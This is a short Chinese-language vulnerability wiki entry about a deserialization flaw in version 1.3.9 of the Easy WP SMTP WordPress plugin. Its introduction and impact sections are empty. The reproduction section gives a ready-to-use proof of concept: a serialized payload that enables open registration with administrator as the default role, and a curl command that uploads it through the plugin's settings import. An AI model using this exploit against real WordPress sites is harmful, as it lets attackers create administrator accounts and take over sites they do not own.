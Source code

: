 WordPress Plugin - Easy WP SMTP 反序列化漏洞
============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我们首先搭建一个wordpress站点，安装v1.3.9版本的Easy WP
SMTP，并进行相关配置。

在以下概念验证中，我将用于swpsmtp\_import\_settings上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users\_can\_register）并将用户默认角色（default\_role）设置为数据库中的"管理员"。

1.创建一个文件名" /tmp/upload.txt"，并添加以下内容：

    a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}

2.上传文件

    $ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

![](/Users/aresx/Documents/VulWiki/.resource/WordPressPlugin-EasyWPSMTP反序列化漏洞/media/rId24.shtml)

